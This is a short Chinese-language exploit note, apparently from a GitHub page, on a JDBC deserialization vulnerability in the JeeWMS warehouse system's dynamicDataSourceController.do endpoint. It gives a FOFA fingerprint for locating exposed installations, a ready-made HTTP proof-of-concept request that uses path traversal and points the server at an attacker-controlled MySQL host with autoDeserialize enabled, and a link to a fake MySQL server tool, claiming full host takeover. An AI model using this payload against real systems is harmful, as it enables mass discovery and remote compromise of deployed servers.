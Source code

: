 # JEEWMS系统dynamicDataSourceController.do存在JDBC反序列化漏洞

JeeWMS是一款免费开源的仓库管理系统，支持3PL和厂内物流，涵盖订单管理，仓储管理，计费管理，现场作业，RFID，AGV等功能。本文介绍了系统的简介，功能，安装，截图和链接，适合仓储企业和开发者参考。厦门市灵鹿谷科技有限公司JEEWMS    dynamicDataSourceController.do JDBC反序列化漏洞，导致攻击者可以获取系统主机权限

## fofa

```javascript
body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro"
```

## poc

```javascript
GET /rest/../dynamicDataSourceController.do?testConnection&driverClass=com.mysql.jdbc.Driver&url=jdbc:mysql://{{tempdns}}/test?detectCustomCollations=true%26autoDeserialize=true&dbUser=test_user HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

利用工具：https://github.com/fnmsd/MySQL_Fake_Server

